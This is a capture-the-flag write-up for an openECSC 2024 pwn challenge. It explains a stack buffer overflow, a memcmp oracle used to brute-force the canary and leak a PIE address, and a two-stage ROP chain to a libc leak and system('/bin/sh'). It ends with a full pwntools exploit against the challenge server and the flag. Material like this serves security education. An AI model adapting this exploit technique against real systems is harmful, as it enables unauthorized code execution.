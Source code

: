 ```yaml
---
title: yet another guessing game
date: 2024-05-10T16:37:39+03:00
description: Writeup for yet another guessing game [openecsc_round2_2024s]
author: zenbassi
tags:
- pwn
---
```

___

## Challenge Description

The title says it all. Guess the secret!

nc yetanotherguessinggame.challs.open.ecsc2024.it 38010

## Intuition

We're dealing with a very simple binary with all protections enabled:
```
RELRO           STACK CANARY      NX            PIE
Full RELRO      Canary found      NX enabled    PIE enabled 
```
Reversing it doesn't take too long. It first opens `/dev/urandom` and reads 16 bytes of random data into a buffer. After that it runs a multi-step loop. Inside the loop, the player is asked to guess the random value, and the input is checked against the random value with `memcmp`. The player receives feedback based on the result of the `memcmp`. Regardless of the restul, the player is given the option to break out of the loop or loop again.

There are a few key observations:
1. The input from the user is received through a `read` call, which attempts to read 104 bytes into a buffer of 40 bytes. By providing more than 40 bytes of data, we cause a stack-based buffer overflow;
2. The check of equality between our value and the random value is done with `memcmp`, using the length of our buffer, calculated with `strlen`. This allows us to control how much data we're checking;
    ```c
    __n = strlen(buf_vuln);
    fd = memcmp(buf_vuln,buf_ok,__n);
    ```
3. We're allowed to run the loop again, **even if** we successfully _guess the secret_;

Using this information, we notice that a loop iteration can be used as an oracle for checking the correctness of the first byte in the secret. We can try all 255 possible values until we find the right value and then continue, using the same logic, with the next bytes. We can use this technique to guess upwards of 39 bytes from the stack, which include the CANARY and the return address of the function. As such, we bypass the CANARY, which allows us to override the return address. Furthermore, by leaking the return address, we're essentially leaking an address from the address space of the binary, which in turn enables us to find the PIE slide offset and bypass ASLR.

Leaking the PIE slide offset is necessary in order to continue the attack. We don't have a **one gadget** as part of the binary, so we also need a libc leak. We can overflow another 24 bytes past the return address, which is enough to build a small ROP chain. Using ROPgadget we find a `pop rid; ret` gadget, which we'll use to call `puts@plt` on an entry from the GOT.

```
0x0000000000001503 : pop rdi ; ret
```

By printing the address of a known function from the GOT table, we can get a libc leak, which we can then use to call `system`. But before that, we need to do some more ROPing and unfortunately there's not enough overflow material. What we can do instead is obtain the libc leak and then return back to the `game` function and redo the whole process again! After guessing the new CANARY, we continue with the second part of the attack. The first part of the payload looks like this:

```py
payload = b'A' * 56 + canary + b'B' * 8
payload += p64(pop_rdi_sliced)
payload += p64(puts_got_sliced)
payload += p64(puts_sliced)
payload += p64(game_sliced)
```

For the second part of the attack, we can just use the libc offset to find the address of the system function and use it to call `/bin/sh`. The payload looks like this. [libc.blukat](https://libc.blukat.me/) is a very useful tool for getting the relative offsets of functions or even the `/bin/sh` string from libc. Here is the second part of the payload

```py
payload = b'A' * 56 + canary + b'B' * 8
payload += p64(pop_rdi_sliced)
payload += p64(bin_sh)
payload += p64(ret) # use this to align the stack for system
payload += p64(system_sliced)
```

## Solution

Here is the full exploit:

```python
#! /usr/bin/env python3

from pwn import *

# p = process('./yet_another_guessing_game/build/yet_another_guessing_game')
# p = process(['./yet_another_guessing_game/libs/ld-linux-x86-64.so.2', \
#             './yet_another_guessing_game/build/yet_another_guessing_game'], \
#             env={"LD_PRELOAD": './yet_another_guessing_game/libs/libc.so.6'})

p = remote('yetanotherguessinggame.challs.open.ecsc2024.it', 38010)

def runda(payload, act=b'y'):
    p.recvuntil(b'et!\n')
    p.send(payload)
    re = p.recvline()
    ret = None
    if b'win' in re:
        ret = True
    else:
        ret = False
    p.recvline()
    p.send(act)
    return ret


def bruteforce():
    runda(b'A' * 57)

    buf_ok = b'A' * 16
    canary = b'A'
    for _ in range(7):
        for b in range(1, 256):
            payload = buf_ok + canary + b.to_bytes() + b'\0'
            ret = runda(payload)
            if ret:
                canary += b.to_bytes()
                break

    assert(len(canary) == 8)

    rbp = b'B' * 8
    runda(b'A' * 56 + canary + rbp)

    ret_addr = b''
    for _ in range(7):
        for b in range(1, 256):
            payload = buf_ok + canary + rbp + ret_addr + b.to_bytes() + b'\0'
            ret = runda(payload)
            if ret:
                ret_addr += b.to_bytes()
                break

    ret_addr = ret_addr[::-1]
    # print("return address: ", hex(int.from_bytes(ret_addr)))

    # payload = buf_ok + canary + rbp + ret_addr

    canary = b'\0' + canary[1:]
    runda(b'A' * 56 + canary) # repair the canary with the 0 byte

    ret_offset = 0x101483
    pie_slice = int.from_bytes(ret_addr) - ret_offset
    # print(hex(pie_slice))

    return canary, pie_slice

canary, pie_slice = bruteforce()
game_sliced = 0x0010128f + pie_slice
puts_sliced = 0x001010e0 + pie_slice
puts_got_sliced = 0x00103f88 + pie_slice
pop_rdi_sliced = 0x001503 + 0x100000 + pie_slice
ret = 0x101a + 0x100000 + pie_slice

payload = b'A' * 56 + canary + b'B' * 8
payload += p64(pop_rdi_sliced)
payload += p64(puts_got_sliced)
payload += p64(puts_sliced)
payload += p64(game_sliced)
runda(payload, b'n')
p.recvline() # skip

puts_libc = p.recvline().rstrip() + b'\0\0'
# print(puts_libc)
puts_libc_addr = u64(puts_libc)
print(hex(puts_libc_addr))

# gdb.attach(p)
# pause()

canary, pie_slice = bruteforce()
# system_sliced = puts_libc_addr - 174656
system_sliced = puts_libc_addr - 205200
# bin_sh = puts_libc_addr + 0x1217b8
bin_sh = puts_libc_addr + 1245597

payload = b'A' * 56 + canary + b'B' * 8
payload += p64(pop_rdi_sliced)
payload += p64(bin_sh)
payload += p64(ret)
payload += p64(system_sliced)

runda(payload, b'n')

# gdb.attach(p)
# pause()

p.recvline() # skip

p.interactive()
```

### Flag

`openECSC{y3t_an0th3r_br0ken_gu3ssing_g4me_<3.hidden}`
